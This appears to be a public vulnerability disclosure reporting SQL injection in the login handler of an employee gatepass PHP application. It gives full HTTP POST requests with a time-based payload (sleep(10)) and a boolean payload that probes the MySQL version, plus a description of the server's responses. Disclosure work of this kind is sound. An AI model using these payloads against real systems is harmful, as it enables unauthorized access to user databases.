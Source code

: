 BUG_Author: ZongXinLi

Vulnerability File: /employee_gatepass/classes/Login.php

GET parameter 'username' exists SQL injection vulnerability

Payload1:`username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123
```

The server's response time is 10 seconds

![image-20230418110724744](/SQLi-1.png)

Payload2:`username=admin'and left(version(),6)='5.7.27' AND 'ledo'='ledo&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin'and left(version(),6)='5.7.26' AND 'ledo'='ledo&password=admin123
```

Error injection success

When I enter the version number 5.7.26, it returns "success". Error statement when typing 5.7.27

![image-20230418112554085](/SQLi-2.png)

![image-20230418112616037](/SQLi-3.png)
